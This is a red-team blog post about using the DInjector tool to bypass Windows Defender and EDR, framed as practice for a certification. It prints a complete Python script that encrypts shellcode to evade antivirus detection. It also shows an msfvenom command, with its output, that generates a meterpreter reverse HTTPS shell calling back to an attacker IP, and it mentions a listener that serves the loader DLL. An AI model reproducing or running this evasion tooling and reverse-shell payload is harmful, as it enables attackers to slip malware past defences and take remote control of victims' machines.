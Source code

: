 ```yaml
---
layout: single
title: "Trying out DInjector as a AV/EDR bypassing tool, fully ported to DInvoke APIs"
date: 2021-10-26
tags:  
  - windows
  - avbypass
  - dinvoke
  - windows-defender
author_profile: true
---
```


Hello back fellow red teamers. I decided to come make a blog post after a little of long period in which I lost all of my other blog posts.

Lately I have been focused on Windows stuff, such as excercises on trying to bypass Windows Defender through trial and errors etc as a practice to help me make some preparations for a possible OSEP attempt lol.

I came across some amazing repos which I though would be worth to explain on a blog.

First let's take a view :

- [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
 
DInvoke is dynamic replacement for PInvoke and contains powerful primitives that can be combined to dynamically invoke unmanaged code from disk or from memory.

You can have this reference for a deeper explaination on what DInvoke does and what it really is : [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)

While desperatly googling about examples of DInvoke being used on an actual Proof of Concept for silent Code Execution I ended up finding this amazing tool which is fully ported on DInvoke APIs : [https://github.com/snovvcrash/DInjector](https://github.com/snovvcrash/DInjector)

```
(    (
     )\ ) )\ )                   )             (   (  (
    (()/((()/(     (    (     ( /(    (        )\ ))\ )\
     /(_))/(_))(   )\  ))\ (  )\())(  )(      (()/((_|(_)
    (_))_(_))  )\ |(_)/((_))\(_))/ )\(()\      ((_))  _
     |   \_ _|_(_/( !(_)) ((_) |_ ((_)((_)     _| | || |
     | |) | || ' \)) / -_) _||  _/ _ \ '_|  _/ _` | || |
     |___/___|_||_|/ \___\__| \__\___/_|   (_)__,_|_||_|
                 |__/-----------------------------------
                                                K E E P
                                                C A L M
                                                  A N D
                                       D / I N 💉 E C T
                                      S H E L L C O D E
```

The repo consists of a shellcode encrypter which makes use of `xor` or `aes` algorithms and encrypts the file with a password using sha256 and the DLL project which we will be loading into the memory to execute code.

- encrypter.py

```python
#!/usr/bin/env python3

import os
import hashlib
from base64 import b64encode
from argparse import ArgumentParser

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend


class AES:

	def __init__(self, password, iv): 
		self.key = hashlib.sha256(password.encode()).digest()
		self.iv = iv

	def encrypt(self, raw):
		backend = default_backend()
		padder = padding.PKCS7(128).padder()
		raw = padder.update(raw) + padder.finalize()
		cipher = Cipher(algorithms.AES(self.key), modes.CBC(self.iv), backend=backend)
		encryptor = cipher.encryptor()
		return self.iv + encryptor.update(raw) + encryptor.finalize()


def parse_args():
	parser = ArgumentParser()
	parser.add_argument('shellcode_bin', action='store', type=str)
	parser.add_argument('-p', '--password', action='store', type=str, required=True)
	parser.add_argument('-a', '--algorithm', action='store', type=str, default='aes', choices=['aes', 'xor'])
	parser.add_argument('-o', '--output', action='store', type=str)
	parser.add_argument('--base64', action='store_true', default=False)
	return parser.parse_args()


if __name__ == '__main__':
	args = parse_args()

	with open(args.shellcode_bin, 'rb') as fd:
		shellcode = fd.read()

	if args.algorithm == 'aes':
		iv = os.urandom(16)
		ctx = AES(args.password, iv)
		enc = ctx.encrypt(shellcode)
	elif args.algorithm == 'xor':
		enc = bytearray(b ^ ord(args.password) for b in shellcode)

	if args.base64:
		print(b64encode(enc).decode())
	else:
		with open(args.output, 'wb') as fd:
			fd.write(enc)
		print(f'[+] Encrypted shellcode file: {args.output}')
```

I could use Visual Studio to compile the DLL project but doing everything in linux just fits in perfectly. I wasnt aware there was a developer tool such as ``monodeveloper`` which could handle `C#` and `.NET` compiling on linux.

![img1](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/DInjector1.png)

The walkthrough after compiling the DLL is pretty much straightforwards, I am going to create a meterpreter shellcode and have the output as raw : 

```bash
pi0x73@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=192.168.88.142 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 906 bytes
Saved as: shellcode.bin
```

Setting up a listener which will serve the DLL to be loaded and the shellcode : 

![img2](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img2.png)
